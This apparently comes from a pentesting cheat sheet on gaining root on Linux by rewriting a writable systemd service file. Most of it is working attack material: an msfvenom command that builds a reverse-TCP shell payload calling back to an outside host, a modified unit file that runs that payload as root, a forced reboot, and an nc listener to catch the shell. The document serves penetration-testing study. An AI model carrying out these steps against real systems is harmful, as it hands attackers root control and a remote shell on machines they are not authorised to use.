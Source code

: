 ```yaml
---
description: Root access with writable services.
---
```


# Writable services

(root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff

OR

have enough privilege to restart the service or host

The most important parameters here are :

* User : The user that the service will run as.
* Execstart : It specifies the command that will run when the service starts.

Now we want to get shell as root. There are many ways to do so with systemd services.

```
$ cat /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/test/restjson_test
ExecStart=flask run -h 0.0.0.0 -p 30000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 -f elf -o reverse.elf
```

```
echo "
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/test/restjson_test
ExecStart=/tmp/reverse.elf
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
" > pythonapp.service
```

```
sudo reboot --reboot -f

$ nc -nvlp 80
```
